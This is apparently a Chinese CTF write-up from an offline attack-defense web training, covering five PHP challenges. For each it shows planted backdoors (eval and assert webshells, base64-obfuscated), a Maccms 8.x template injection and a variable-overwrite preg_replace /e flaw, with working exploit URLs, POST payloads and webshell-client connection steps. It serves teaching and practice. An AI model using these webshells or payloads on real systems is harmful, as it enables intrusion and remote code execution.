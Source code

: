 ```yaml
---
title: 线下Web训练
date: 2018-04-14 00:00:00
categories:
- CTF/Web
tags: 开心的三人组 
--- 
```


## web1

### 漏洞位置


/engine/Plugin/View.php | 227行 | 任意代码执行


```php
@($_REQUEST['test']);
```


### 漏洞利用

由于View.php第一行代码：

```php
<?php defined('WEBSITE_ACCESS') or die('No direct script access.');
```

使得View.php必须通过定义了WEBSITE_ACCESS的php文件包含才能加载，尝试在index.php直接get提交test参数，即可利用成功。菜刀连接直接连接index.php即可，密码为test。或者利用如下url直接getflag：

```
index.php?test=system('cat /flag');
```

具体index.php是如何包含view.php的，过程比较复杂，我还没研究明白。

## web2

> 本题不能通过直接把服务器下载的源码直接挂到其他服务器上，因为要连接数据库，所以找未安装的maxcms源码运行install.php即可，源码下载：[https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A](链接:https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A) 密码:pc4m


### 漏洞分析

[Maccms8.x 命令执行漏洞分析(苹果cms) - 颓废's Blog](https://www.0dayhack.com/post-285.html)

### 漏洞利用

菜刀连接如下url，密码为0

```
/index.php?m=vod-search&wd={if-A:assert($_POST[0])}{endif-A}
```

或者利用如下url直接getflag

```
/index.php?m=vod-search&wd={if-A:system('cat /flag')}{endif-A}
```

## web3

### 漏洞位置


/admin/inc/configuration.php | 4行 | 任意代码执行


```php

@array_map('assert',(array)base64_decode($_REQUEST['getconfig']));
```

#### array_map

将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新值的数组：

```php
<?php
function myfunction($v)
{
  return($v*$v);
}

$a=array(1,2,3,4,5);
print_r(array_map("myfunction",$a));
?>
```

### 漏洞分析

1. 将请求中的getconfig参数baes64编码后，转换为数组
2. 将数组中的每一个值（其实就一个），传给assert函数，导致任意代码执行

### 漏洞利用

```php

<?php

echo base64_encode('@eval($_POST[0]);')."\n";
//QGV2YWwoJF9QT1NUWzBdKTs=

echo base64_encode("system('cat /flag');");
//c3lzdGVtKCdjYXQgL2ZsYWcnKTs=

?>
```

菜刀连接如下url，密码为0

```
admin/inc/configuration.php?getconfig=QGV2YWwoJF9QT1NUWzBdKTs=
```

或者直接getflag

```
admin/inc/configuration.php?getconfig=c3lzdGVtKCdjYXQgL2ZsYWcnKTs=
```

## web4

> php5.4及其以上正常运行此题

### 漏洞位置


/index.php | 8-11行 | 任意代码执行


```php
if(md5(@$_GET['p']) == '962012d09b8170d912f0669f6d7d9d07'){
    eval($_POST['hello']);
    die();
}

```



/data/inc/front/product.php| 53行 | 任意代码执行


```
($_=@$_GET['hs']).@$_($_POST['c014']);
```



### 漏洞分析

- 漏洞1

cmd5解出962012d09b8170d912f0669f6d7d9d07为qwer

- 漏洞2

product.php第一行

```php
defined('defined('IN_CMS') or exit('Access denied!');') or exit('Access denied!');
```

需要被定义IN_CMS的其他php文件包含才能执行，容易发现index.php有file参数，即可包含

index.php 90-101行
```php

if (isset($_GET['file']))
{
	$file = $_GET['file'];
	if (strpos($file, '..')!==false || strpos($file, 'images/')!==false){
		die("ctf{ff96520020d34df2f5058e74bc274c87}");
	}
	include('data/inc/front/'.$_GET['file'].'.php');
}
else
{
	include('data/inc/front/index.php');
}

```

### 漏洞利用


- 漏洞1

```
index.php?p=qwer

hello=system('cat /flag');
```

- 漏洞2

```
index.php?file=product.php&cid=3&page=1&hs=system

c014=cat /flag
```

## web5

### 漏洞位置

/normaliz.php | 4-17行 | 任意代码执行


```php
function action($post_data, $ip_replacement, $mail_replacement){
	foreach ($post_data as $key => $value) {
		$$key = $value;
	}
	try{
		if ($method == '/\\d+\\.\\d+\\.\\d+\\.\\d+/')
		{
			$res = preg_replace($method, $ip_replacement, $source);
		}
		else
		{
			$res = preg_replace($method, $mail_replacement, $source);
		}
	}
```

### 漏洞分析

1. $$key=$value;导致变量覆盖，可覆盖$method, $ip_replacement, $source
2. 使$method覆盖为为/e匹配模式
3. 找到$post_data在/action.php中由所有的POST参数生成
4. 并且action.php存在文件包含功能

action.php

```php

<?php
require_once("library/common.php");
require_once("library/view.php");
$page = filter($_POST['page']).'.php';
$post_data = array();
foreach ($_POST as $key => $value) {
	$post_data[$key] = $value;
}
@require_once($page);
?>

```

### 漏洞利用

利用action.php包含normaliz.php，然后覆盖相应变量即可，payload如下：

```
/action.php

page=normaliz&method=/a/e&mail_replacement=system('cat /flag');&source=a
```

